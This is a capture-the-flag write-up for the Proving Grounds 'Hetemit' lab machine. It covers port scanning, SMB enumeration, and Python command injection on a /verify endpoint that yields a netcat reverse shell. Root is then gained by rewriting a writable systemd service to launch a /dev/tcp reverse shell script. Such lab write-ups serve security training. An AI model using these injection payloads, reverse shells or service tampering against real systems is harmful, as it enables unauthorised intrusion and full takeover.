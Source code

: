 ```yaml
---
title: "Proving grounds Practice: Hetemit"
layout: post
date: 2024-03-27 02:00
categories: writeup
---
```


Proving grounds Practice - Hetemit CTF writeup.

# NMAP

```text
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 3.0.3
22/tcp    open  ssh         OpenSSH 8.0 (protocol 2.0)
80/tcp    open  http        Apache httpd 2.4.37 ((centos))
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
18000/tcp open  biimenu?
50000/tcp open  http        Werkzeug httpd 1.0.1 (Python 3.6.8)
```

## 21/tcp    open  ftp         vsftpd 3.0.3

anonymous login successfull
nothing...

## 139/tcp   open  netbios-ssn Samba smbd 4.6.2
## 445/tcp   open  netbios-ssn Samba smbd 4.6.2

```sh
naveenj@hackerspace:[06:54]~/proving_grounds/Hetemit$ smbclient -L //192.168.201.117/ -N
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	Cmeeks          Disk      cmeeks Files
	IPC$            IPC       IPC Service (Samba 4.11.2)
Reconnecting with SMB1 for workgroup listing.

smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
```

## 50000/tcp open  http        Werkzeug httpd 1.0.1 (Python 3.6.8)

- http://192.168.201.117:50000/verify

```sh
naveenj@hackerspace:[06:49]~/proving_grounds/Hetemit$ curl -X POST --data "code=4*4" http://192.168.201.117:50000/verify
16
```
Vulnerable to command injection

```sh
#inject reverse shell
naveenj@hackerspace:[06:49]~/proving_grounds/Hetemit$ curl -X POST --data "code=os.system('nc -e /bin/bash 192.168.45.218 80')" http://192.168.201.117:50000/verify
# netcat listening
naveenj@hackerspace:[06:49]~/proving_grounds/Hetemit$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.218] from (UNKNOWN) [192.168.201.117] 50652
which python
id
uid=1000(cmeeks) gid=1000(cmeeks) groups=1000(cmeeks)
which python3
/usr/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")' 
[cmeeks@hetemit restjson_hetemit]$ 
```

Initial foothold obtained.

## Privilege Escalation

### Linpeas Enumeration
```sh
╔══════════╣ PATH
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses
/home/cmeeks/.rvm/gems/ruby-2.6.3/bin:/home/cmeeks/.rvm/gems/ruby-2.6.3@global/bin:/home/cmeeks/.rvm/rubies/ruby-2.6.3/bin:/home/cmeeks/.local/bin:/home/cmeeks/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/home/cmeeks/.rvm/bin:/home/cmeeks/.rvm/bin

╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services
/etc/systemd/system/multi-user.target.wants/pythonapp.service
/etc/systemd/system/multi-user.target.wants/pythonapp.service could be executing some relative path
/etc/systemd/system/multi-user.target.wants/railsapp.service could be executing some relative path
/etc/systemd/system/pythonapp.service

User cmeeks may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff

/usr/sbin/suexec = cap_setgid,cap_setuid+ep

╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#init-init-d-systemd-and-rc-d
You have write privileges over /etc/systemd/system/pythonapp.service
```

### Exploitation

Writing shell to file `/etc/systemd/system/pythonapp.service`.

**Original content**

```sh
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=flask run -h 0.0.0.0 -p 50000
TimeoutSec=30
RestartSec=15s
User=cmeeks
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

**Modified Content**

```sh
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
ExecStart=/home/cmeeks/restjson_hetemit/run.sh #add reverse shell in the bash script
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

**run.sh**

```sh
#!bin/bash

bash -c 'sh -i >& /dev/tcp/192.168.45.218/22 0>&1'
```

```sh
naveenj@hackerspace:[07:28]~/proving_grounds/Hetemit$ nc -lvnp 22
listening on [any] 22 ...
connect to [192.168.45.218] from (UNKNOWN) [192.168.201.117] 39016
sh: cannot set terminal process group (989): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4# 
```

**Root Obtained**

## References

- https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740
- https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).